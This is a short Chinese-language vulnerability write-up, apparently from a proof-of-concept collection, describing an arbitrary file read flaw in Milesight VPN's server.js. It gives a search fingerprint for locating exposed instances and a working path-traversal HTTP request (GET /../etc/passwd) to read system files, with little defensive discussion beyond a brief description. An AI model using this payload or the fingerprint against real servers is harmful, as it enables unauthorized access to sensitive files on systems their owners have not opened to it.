 # 

# Milesight VPN server.js 任意文件读取漏洞

## 漏洞描述

MilesightVPN 是一款软件，可使 Milesight 产品的 VPN 通道设置过程更加简便，并可通过网络服务器界面监控连接状态。其中存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中敏感文件

## 漏洞影响

Milesight VPN

## 网络测绘

```
"MilesightVPN"
```

## 漏洞复现

登陆页面

![image-20230828161340509](images/image-20230828161340509.png)

验证POC

```
GET /../etc/passwd HTTP/1.1
Host: 
Accept: */*
Content-Type: application/x-www-form-urlencoded
```

![image-20230828161357209](images/image-20230828161357209.png)
